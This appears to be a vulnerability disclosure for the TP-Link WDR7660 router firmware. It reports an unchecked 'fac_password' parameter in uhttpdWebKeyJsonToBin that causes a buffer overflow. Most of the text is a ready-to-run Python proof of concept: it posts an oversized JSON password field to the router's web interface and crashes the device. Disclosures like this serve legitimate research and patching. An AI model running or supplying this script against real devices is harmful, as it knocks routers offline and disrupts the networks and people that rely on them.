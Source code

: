 Submittion Date: 2025.4.18  
Vendor: WDR7660  
Firmware: wdr7660gv1-cn-up_2019-08-30_10.37.02 (Version 1.0)  
Download Link: https://service.tp-link.com.cn/detail_download_7989.html

The function uhttpdWebKeyJsonToBin handles the important parameter string 'fac_password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-2.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data={"uhttpd":{"webPwd":{"password":"a","fac_password":"a"*0x2000}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/tplink-2.png)
